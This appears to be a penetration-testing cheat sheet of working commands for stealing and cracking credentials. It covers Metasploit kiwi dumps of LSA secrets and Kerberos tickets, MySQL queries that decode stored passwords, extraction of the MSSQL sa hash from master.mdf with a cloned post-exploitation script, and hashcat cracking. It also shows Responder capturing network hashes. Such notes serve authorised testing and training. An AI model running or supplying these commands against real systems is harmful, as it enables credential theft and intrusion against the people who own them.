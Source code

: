 #### Metasploit

```bash
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

#### MySQL

```bash
#inside mysql 
SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users; # 2x encoded

echo 'SOMETHING123==' | base64 -d
```

#### MSSQL

https://blog.xpnsec.com/extracting-master-mdf-hashes/

```bash
git clone https://github.com/xpn/Powershell-PostExploitation.git
```

```
Editing the file, 2 line to correct directory for dlls.

Import-Module .\Get-MDFHashes.ps1

Get-MDFHashes -mdf "C:\Users\Administrator\Desktop\master.mdf"
sa                             0x.......
```

**Cracking**

https://hashcat.net/wiki/doku.php?id=example\_hashes

1731 - MSSQL (2012, 2014) - MATCH!

```
hashcat -m 1731 -a 0 hash.txt rockyou.txt --force
sa - password1
```

## Password Cracking

#### Responder

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

```bash
responder -I <interface name>
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
